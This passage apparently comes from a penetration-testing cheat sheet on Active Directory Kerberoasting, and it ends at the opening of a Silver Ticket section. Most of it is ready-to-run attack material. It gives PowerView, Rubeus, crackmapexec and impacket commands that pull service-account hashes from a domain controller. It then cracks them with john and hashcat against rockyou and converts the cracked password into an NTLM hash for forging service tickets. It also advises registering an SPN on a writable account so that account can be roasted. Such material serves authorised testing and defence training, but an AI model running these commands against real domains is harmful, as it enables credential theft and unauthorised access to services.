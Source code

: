 Obtaining the SPN Hashes:

```powershell
# Windows: using PowerView.ps1
Invoke-Kerberoast | fl

# Windows: using Rubeus
# '/tgtdeleg' tries to downgrade encryption to RC4
.\Rubeus.exe kerberoast /tgtdeleg /outfile:kerberoast.hash

# Kali: use crackmapexec, auto-finds all kerberoastable users & grabs hashes
crackmapexec ldap VICTIM_IP -u harry -p pass --kerberoasting kerberoast.hash

# Kali: use impacket
impacket-GetUserSPNs -request -outputfile kerberoast.hash -dc-ip DC_IP DOMAIN/USERNAME:PASSWORD
```

Cracking the kerberoast hashes:

```sh
# using John-the-Ripper (auto-detects krb5tgs format)
john --wordlist=/usr/share/wordlists/rockyou.txt kerberoast.hash

# using hashcat
hashcat -m 13100 --force -r /usr/share/hashcat/rules/best64.rule kerberoast.hash /usr/share/wordlists/rockyou.txt
```

If the SPN runs in the context of a computer account, a managed service account, or a group-managed service account, the password will be randomly generated, complex, and 120 characters long, making cracking infeasible. The same is true for the `krbtgt` user account which acts as service account for the KDC.

If you have write permissions for another user account (e.g. `GenericAll`), then, instead of changing their password, you could momentarily add/register an SPN to their account, allowing you to kerberoast them.

Once you have the SPN password, you can use it to forge a Silver Ticket. You must first convert it to its NTLM hash, which is simply the MD4 hash of the password.

```python
import hashlib
h = hashlib.new("md4", "SPN_PASSWORD".encode("utf-16le")).hexdigest()
print(h)
```



### 5.2.5 Silver Ticket

A Silver Ticket is a forged service ticket that an attacker uses to gain access to a service.

Privileged Account Certificate (PAC) validation is an optional verification process between the SPN application and the DC. If this is enabled, the user authenticating to the service and its privileges are validated by the DC. Fortunately for this attack technique, service applications rarely perform PAC validation.
